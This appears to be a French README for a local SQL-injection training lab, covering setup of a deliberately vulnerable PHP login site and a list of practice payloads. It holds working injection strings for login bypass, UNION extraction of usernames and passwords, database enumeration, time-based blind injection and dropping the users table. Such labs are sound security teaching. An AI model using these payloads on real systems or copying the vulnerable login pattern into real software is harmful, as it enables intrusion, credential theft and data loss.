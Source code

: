 # Labo d'Injection SQL - Site Vulnérable

Ce projet est un environnement local vulnérable à l'**injection SQL (SQLi)**, conçu pour t’aider à apprendre les bases du hacking éthique en toute sécurité. Il inclut une page de login, une page d’accueil protégée, et des exemples pratiques pour tester les injections SQL.

> ⚠️ Ce projet est uniquement destiné à des fins pédagogiques. N'utilisez jamais ces techniques sur des systèmes sans autorisation explicite.

---

## 📁 Structure du projet
Site Vulnérable

├── index.php      : Page protégée

├── login.php      : Connexion vulnérable

├── logout.php     : Déconnexion

├── config.php     : Config BDD

├── database.sql   : Création base

├── style.css      : Style

└── README.md      : Ce fichier


---

## 🛠️ Technologies utilisées

- **PHP** – Pour la logique côté serveur
- **MySQL** – Base de données
- **HTML/CSS** – Interface utilisateur
- **PDO** – Connexion à la base de données (vulnérable dans sa version initiale)

---

## 🧱 Objectif

Ce labo permet d'apprendre :
- Comment détecter une vulnérabilité SQLi
- Comment exploiter une injection SQL manuellement
- Comment automatiser l’attaque avec `sqlmap`
- Comment corriger la faille de sécurité

---

## 🔧 Installation locale

### 1. Cloner le projet
```bash
git clone https://github.com/votre-nom-de-utilisateur/mon-site-sql.git 

```
### 2. Importer la base de données
```bash
mysql -u root -p < database.sql
```
### 3. Démarrer le serveur local 

**Utilise XAMPP , WAMP , MAMP ou LAMP :**

**Place le dossier dans htdocs/ (pour XAMPP)**

**Accède au site via : http://localhost/mon-site-sql/login.php**

---


## 🧪 Exemples d’injections SQL à tester

Tu peux utiliser ces payloads SQLi pour détecter et exploiter une vulnérabilité sur ton site web.

### 🔐 Bypass du login (Login bypass)

Permet de se connecter sans connaître le mot de passe :

```sql
Nom d'utilisateur : ' OR '1'='1
Mot de passe : whatever
```

### 📚 Récupérer des données sensibles
```sql
Nom d'utilisateur : ' UNION SELECT 1, username, password FROM users--
Mot de passe : whatever
```

### 🗂️ Lister les bases de données 
```sql 
' UNION SELECT 1, schema_name, 3 FROM information_schema.schemata--
```
 
### 📄 Lister les tables d’une base 
```sql
' UNION SELECT 1, table_name, 3 FROM information_schema.tables WHERE table_schema = 'nom_base'--
```

### 📑 Lister les colonnes d’une table
Pour trouver les noms des colonnes (ex: username, password) :
```sql
' UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_name = 'users'--
```

### 🔍 Afficher les données d’une table
Exemple pour afficher les identifiants stockés :
```sql
' UNION SELECT 1, username, password FROM users--
```

### ⏱️ Injection SQL aveugle (Blind SQLi)
Utiliser avec une réponse basée sur le temps :
```sql
' AND IF(1=1, SLEEP(5), 0)-- 
```
Teste si le serveur met 5 secondes à répondre → injection réussie !

🧹 Supprimer une table (⚠️ Dangereux – À utiliser uniquement en labo)
Efface la table users (ne le fais QUE sur ton propre site) :
```sql
'; DROP TABLE users;--
```




